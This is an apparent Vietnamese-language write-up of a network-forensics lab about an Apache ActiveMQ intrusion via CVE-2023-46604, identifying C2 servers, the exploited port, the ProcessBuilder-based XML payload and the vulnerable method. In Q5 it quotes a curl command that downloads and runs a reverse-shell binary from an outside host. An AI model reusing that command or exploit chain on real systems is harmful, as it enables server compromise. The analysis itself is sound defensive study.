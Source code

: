 <h1>Q1:</h1>
<h2>Problem</h2>
By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?
<h2>Solution
</h2>

Trước tiên mình sẽ check conversation giữa các sever 
![image](https://github.com/user-attachments/assets/ebb60552-2c92-4a0c-bd84-046dd7dfa39d)
Nhìn vào đó thì mình thấy được 3 IP khác kết nối tới địa chỉ sever của mình(134.209.197.3). Nhưng trong đó có 4867 packets đã được gửi giữa sever mình với sever IP 146.190.21.92
=> Ans: 146.190.21.92

<h1>Q2:</h1>
<h2>Problem</h2>
Initial entry points are critical to trace back the attack vector. What is the port number of the service the adversary exploited?

<h2>Solution</h2>
Khi nhìn vào packet thứ 4 và 5, mình thấy attacker sử dụng protocol OpenWire để tấn công sever(sau khi research thì mình biết được rằng OpenWire được xây dựng dựa trên nền tảng TCP và sử dụng TCP làm phương tiện truyền tải dữ liệu), sau đó mình vào các packet để check src port

![image](https://github.com/user-attachments/assets/bb104fa6-117f-40f7-a999-4632672b1e93)

=> Ans: 61616
<h1>Q3:</h1>
<h2>Problem</h2>
Following up on the previous question, what is the name of the service found to be vulnerable?

<h2>Solution</h2>
Mình search google xem giao thức OpenWire được dùng cho service nào và tìm được câu trả lời

![Screenshot 2024-08-22 224745](https://github.com/user-attachments/assets/21a77267-2cd8-453f-9048-73672ee48c20)

=> Ans: Apache ActiveMQ
<h1>Q4:</h1>
<h2>Problem</h2>
The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?

<h2>Solution</h2>
Sau khi nhìn vào phần Conversation, sever của mình còn kết nối với 2 sever khác nữa(128.199.52.72 và 84.239.49.16) nên mình filter từng IP một
<pre>ip.addr==134.209.197.3 && ip.addr==128.199.52.72</pre>

![image](https://github.com/user-attachments/assets/0bcff04d-3446-493d-a36c-4bfccf00d270)

Sau quá trình bắt tay ba bước, mình thấy sever của mình đang gửi một request GET để lấy tài nguyên nên mình follow TCP stream ở packet 34

![image](https://github.com/user-attachments/assets/c2223b7b-809b-4ae0-845f-e8ae8b8f02cc)

 Mình thấy được nội dung trả về là một tệp ELF(định dạng tệp thực thi chuẩn trên các hệ điều hành Linux, Unix), nên mình biết được đây chính là C2 sever
 => Ans: 128.199.52.72
<h1>Q5:</h1>
<h2>Problem</h2>
Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?

<h2>Solution</h2>
Khi đọc đến packet 11, mình thấy info của packet là 

_**GET /invoice.xml HTTP/1.1**_
![image](https://github.com/user-attachments/assets/6c94cd22-508f-494c-b3cd-343eb318dced)
Đây là một yêu cầu HTTP GET để lấy file invoice.xml từ máy chủ, nên mình check bằng cách follow TCP Stream và bắt được nội dung của file XML
![image](https://github.com/user-attachments/assets/f8fef9f5-e9d5-4954-b682-6936ff5fa5df)

Sau khi đọc và phân tích nội dung file thì mình kết luận được là trong tệp XML chứa mã độc, trong file đó chứa câu lệnh bash sau

<pre> curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker </pre>

Câu lệnh trên sẽ tải một tệp từ địa chỉ http://128.199.52.72/docker, sau đó cung cấp quyền thực thi cho tệp docker đó


=> Ans: docker
<h1>Q6:</h1>
<h2>Problem</h2>
What Java class was invoked by the XML file to run the exploit?
<h2>Solution</h2>
Sau khi đọc nội dung của file XML thì mình thấy được class được dùng là "java.lang.ProcessBuilder" 
Đây là một lớp trong Java dùng để tạo và quản lý các process mới. Trong trường hợp này, file XML sử dụng ProcessBuilder để thực thi các lệnh bash trên hệ thống.
=> Ans: java.lang.ProcessBuilder
<h1>Q7:</h1>
<h2>Problem</h2>
To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?
<h2>Solution</h2>
Để tìm được CVE ID thì mình search google với từ khóa " OpenWire CVE là có kết quả

![image](https://github.com/user-attachments/assets/60739179-7872-4ea3-a834-a99fda95ac6a)

=> Ans: CVE-2023-46604

Sau đây là một số bài viết mình tìm hiểu liên quan tới CVE này

https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html 

https://www.openlogic.com/blog/activemq-cve-2023-46604

https://fidelissecurity.com/threatgeek/threat-intelligence/unveiling-apache-activemq-vulnerability/


Bản chất về cách hoạt động của CVE này đó là các lệnh OpenWire không thể validate được các Throwable class type, dẫn tới nguy cơ RCE.
Trong bài lab này, đoạn mã XML đã sử dụng class ProcessBuilder để tạo và khởi chạy mã độc.
![image](https://github.com/user-attachments/assets/9d7c09f4-1d58-4434-a486-8873efe69ccc)

Trong đoạn code trên, method validateIsThrowable đã được update vào bản patch OpenWire và được sử dụng để đảm bảo rằng chỉ các class kế thừa từ Throwable mới được chấp nhận và xử lý. Nếu không có method này hoặc method không hoạt động đúng cách, bất kỳ class nào cũng có thể được chấp nhận và thực thi, bao gồm cả các class chứa mã độc. 

 
<h1>Q8:</h1>
<h2>Problem</h2>
What is the vulnerable Java method and class that allows an attacker to run arbitrary code? (Format: Class.Method)

<h2>Solution</h2>
https://www.vicarius.io/vsociety/posts/apache-activemq-rce-cve-2023-46604?source=post_page-----65aa41a651b1--------------------------------

Mình research được thêm bài viết này và có câu trả lời 
=> Ans: BaseDataStreamMarshaller.createThrowable

